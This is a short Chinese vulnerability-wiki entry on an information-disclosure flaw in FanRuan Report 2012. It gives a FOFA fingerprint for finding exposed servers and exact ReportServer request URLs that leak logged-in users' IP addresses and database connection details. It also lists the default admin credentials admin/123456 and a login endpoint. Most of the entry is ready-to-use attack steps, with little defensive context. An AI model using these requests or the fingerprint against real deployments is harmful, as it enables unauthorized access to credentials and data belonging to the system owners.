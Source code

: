 # 帆软报表 2012 信息泄露漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> 帆软报表 2012

## FOFA

> [!NOTE]
>
> body="down.download?FM_SYS_ID"

## 漏洞复现

获取登录报表系统的IP

```
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```

![](http://wikioss.peiqi.tech/vuln/fan-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

数据库信息泄露

```
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```

![](http://wikioss.peiqi.tech/vuln/fan-9.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

后台默认口令 admin/123456

```
/ReportServer?op=fr_auth&cmd=ah_login&_=new%20Date().getTime()
```

